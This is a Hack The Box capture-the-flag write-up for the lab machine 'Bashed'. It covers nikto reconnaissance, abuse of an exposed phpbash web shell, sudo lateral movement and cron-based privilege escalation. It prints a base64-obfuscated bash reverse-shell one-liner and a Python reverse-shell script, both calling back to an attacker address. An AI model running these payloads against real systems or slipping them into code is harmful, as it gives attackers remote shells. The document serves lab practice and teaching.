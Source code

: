 +++ 
title = "Bashed HTB Write up"
description = "Write up for the HTB machine 'Bashed'"
author = "greatmoves"
tags = ["php", "sudo -l", "python", "nikto", "cronjob", "hackthebox"]
date = 2023-04-15
+++

## Recon
----
### Nikto
cmd: `nikto -host 10.10.10.68`

Our nikto scan reveals to us a number of files and directories
- /config.php
- /css/
- /dev/
- /php/
- /images/
- /icons/

The path `/dev/phpbash.php` seems to be a remote shell

So let's use this to get a reverse shell by running the following command along with a netcat listener

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAueC54LzQ0NDQgMD4mMQ==" | base64 -d | bash`

Once we have our reverse shell let's start with obtaining a fully interactive shell by running `python -c 'import pty;pty.spawn("/bin/bash");'` and then `sudo -l` where we get the following output:

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means we don't need a password to move from our user `www-data` to the user `scriptmanager`, so we simply run `sudo -u scriptmanager /bin/bash` 

`/home/arrexel` is where we can find `user.txt`

## Privilege escalation
----
Through further enumeration of the file system we can see that there is a `/scripts/` folder in the root of the file system.

Simply running `ls -la` we can see that `test.py` is owned by our user, `scriptmanager`, and `test.txt` is owned by the root user.

Therefore we could assume that the script `test.py` is being run by the root user (perhaps through a cronjob, or some sort of other automation), and since `test.py` is owned by our user, we have permissions to edit it.

So, let's replace `test.py` with a python script for a reverse shell. We can do this by using `echo '{python code here}' > test.py` when in the `/scripts/` directory.

```py
#!/usr/bin/python3
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.x.x",4445));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Spin up your netcat listener on the same port that is in your script and wait until `test.py` is run to catch your reverse shell as root.

Finally, navigate to `/root/` for `root.txt`
